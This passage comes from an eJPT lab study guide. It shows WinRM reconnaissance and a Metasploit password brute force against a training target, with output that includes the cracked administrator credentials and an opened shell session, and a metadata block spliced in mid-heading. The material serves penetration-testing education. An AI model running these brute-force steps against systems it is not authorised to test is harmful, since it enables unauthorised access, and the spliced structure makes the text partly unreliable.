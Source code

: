 **Service Analysis:**
- **Port 5985 open** = WinRM service available
- **Multiple Windows services** = Confirmed Windows target
- **WinRM accessible** = Primary attack vector identified

#### **Phase 2: WinRM Authentication Analysis**

**Authentication Methods Check:**
```bash
msfconsole -q
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS demo.ine.local
exploit

# Results:
# [+] 10.0.28.252:5985: Negotiate protocol supported
# [+] 10.0.28.252:5985: Basic protocol supported
```

**Attack Strategy:**
- **Basic authentication enabled** = Username/password attacks possible
- **Service responsive** = No blocking or filtering detected
- **Multiple auth methods** = Flexibility in attack approach

#### **Phase 3: Credential Attack Execution**

**Password Brute Force Attack:**
```bash
use auxiliary/scanner/winrm/winrm_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set PASSWORD anything
exploit

# Successful Result:
# [+] 10.0.28.252:5985 - Login Successful: WORKSTATION\administrator:tinkerbell
# [*] Command shell session 1 opened
```

**Credential Discovery:**
- **Username**: administrator (Windows admin account)
- **Password**: tinkerbell (weak password from wordlist)
- **Domain**: WORKSTATION (local computer account)
- **Access Level**: Administrative privileges confirmed

#### **Phase 4---
title: "Windows Privilege Escalation Complete Guide - eJPT"
topic: "Windows Privilege Escalation"
exam_objective: "Post-Exploitation & Privilege Escalation - eJPT Objective 4.4"
difficulty: "Medium"
tools:
  - "Metasploit Framework"
  - "Incognito"
  - "PowerShell"
  - "WinRM"
  - "Systeminfo"
related_labs:
  - "07-exploitation/metasploit-essentials.md"
  - "07-exploitation/smb-complete-exploitation-workflow.md"
  - "10-post-exploitation/netcat-complete-guide.md"
file_path: "07-exploitation/windows-privilege-escalation-complete.md"
last_updated: "2025-01-27"
tags:
  - "privilege-escalation"